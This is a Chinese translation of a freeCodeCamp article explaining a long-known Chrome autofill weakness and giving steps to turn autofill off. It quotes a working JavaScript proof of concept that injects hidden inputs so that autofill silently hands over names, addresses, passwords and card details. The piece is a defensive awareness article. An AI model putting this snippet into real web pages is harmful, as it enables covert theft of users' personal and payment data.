


# 为什么 Chrome 的自动完成功能不安全，以及如何关闭它

> 原文：<https://www.freecodecamp.org/news/why-your-browsers-autocomplete-is-insecure-and-you-should-turn-it-off-ebc73d7bcefd/>

Chrome 尚未修复一个众所周知的漏洞[，该漏洞在 2013 年](https://yoast.com/autocomplete-security/)首次公开。

基本上，黑客可以隐藏网页上的表单输入字段，如果你选择使用 Chrome 的自动完成功能，Chrome 就会填入你的个人信息。

这看起来是这样的:



gif by [anttiviljami](https://github.com/anttiviljami/browser-autofill-phishing/blob/master/readme.md)

GitHub 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 用下面的 JavaScript 脚本演示了这一点:

```
var autocompletes = ['name', 'honorific-prefix', 'given-name',  'additional-name', 'family-name', 'honorific-suffix',  'nickname', 'username', 'new-password',  'current-password', 'organization-title', 'organization',  'street-address', 'address-line1', 'address-line2',  'address-line3', 'address-level4', 'address-level3',  'address-level2', 'address-level1', 'country',  'country-name', 'postal-code', 'cc-name', 'cc-given-name',  'cc-additional-name', 'cc-family-name', 'cc-exp',  'cc-exp-month', 'cc-exp-year', 'cc-csc', 'cc-type',  'transaction-currency', 'transaction-amount',  'language', 'bday', 'bday-day', 'bday-month',  'bday-year', 'sex', 'url', 'photo', 'tel',  'tel-country-code', 'tel-national',  'tel-area-code', 'tel-local', 'tel-local-prefix',  'tel-local-suffix', 'tel-extension', 'impp'];emailField.addEventListener('focus', function() {  var wrap = autocompletes.reduce(function(wrapper, field) {    var input = document.createElement('input');        // Make them not focussable    input.tabIndex = -1;    input.autocomplete = field;        wrapper.appendChild(input);    return wrapper;  }, document.createElement('div'));  // Hide the wrapper  wrap.classList.add('hidden');  form.appendChild(wrap);  // Inject the autocompletes once  this.removeEventListener('focus', arguments.callee);});
```

我建议你立即关闭 Chrome 的自动完成功能。

### 在 Chrome 中关闭自动完成的最快方法

1.  将此粘贴到 Chrome 的地址栏:`chrome://settings/autofill`
2.  按 escape 退出“管理自动填充设置”模式
3.  取消选中自动填充复选框



现在你可以走了。您可能需要输入更多的内容，但是您可以放心，黑客将无法利用这一众所周知的漏洞窃取您的个人数据。